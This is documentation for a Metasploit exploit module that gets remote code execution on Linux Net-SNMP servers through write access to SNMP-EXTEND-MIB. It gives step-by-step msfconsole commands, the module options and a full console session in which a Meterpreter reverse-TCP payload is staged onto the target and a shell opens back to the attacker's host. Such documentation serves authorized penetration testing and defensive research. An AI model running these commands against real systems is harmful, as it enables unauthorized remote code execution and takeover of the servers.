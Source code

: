 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session

## Options
  **FILEPATH**  
  The location to write the executable out to on the target. Needs to be writable by the SNMP service user. This defaults to /tmp.  
  
  **COMMUNITY**  
  The read/write community string of the target Net-SNMP service.
  
  **VERSION**  
  The SNMP protocol version. Accepted values are '1' or '2c'. 
  
  **CHUNKSIZE**  
  The maximum amount of payload bytes to write in a single operation. This value was found through experimentation and may not be suitable in all environments.  
  Note that cmdstager payloads are modified to allow further escaping, so the values limits may change between cmdstager flavors.  
  Possibly related to: [https://sourceforge.net/p/net-snmp/bugs/2542/]
  
  **TIMEOUT**  
  Specifies the maximum time to allow SNMP to timeout.

  
## Scenario

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (TCP)
    SHELL      /bin/bash        yes       Shell to call with -c argument
    SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
    SRVPORT    8080             yes       The local port to listen on.
    SSL        false            no        Negotiate SSL for incoming connections
    SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
    TIMEOUT    1                yes       SNMP Timeout
    URIPATH                     no        The URI to use for this exploit (default is random)
    VERSION    2c               yes       SNMP Version <1/2c> 

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run
  
  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Command Stager progress -   1.11% done (199/17924 bytes)
  [*] Command Stager progress -   2.23% done (399/17924 bytes)
  [*] Command Stager progress -   3.34% done (598/17924 bytes)
  [*] Command Stager progress -   4.45% done (797/17924 bytes)
  ... Redacted ...
  [*] Command Stager progress -  98.64% done (17681/17924 bytes)
  [*] Command Stager progress -  99.72% done (17873/17924 bytes)
  [*] Sending stage (857352 bytes) to 192.168.1.3
  [*] Meterpreter session 30 opened (192.168.1.2:4444 -> 192.168.1.3:54230) at 2018-02-14 16:52:49 +0000
  [-] Exploit failed: SNMP::RequestTimeout host 192.168.1.3 not responding
  [*] Exploit completed, but no session was created.
  msf exploit(linux/snmp/net_snmpd_rw_access) > sessions -i 30 
  [*] Starting interaction with 30...
  
  meterpreter > getuid
  Server username: uid=121, gid=129, euid=121, egid=129
  meterpreter > exit
  [*] 192.168.1.3 - Meterpreter session 30 closed.  Reason: User exit

  ```
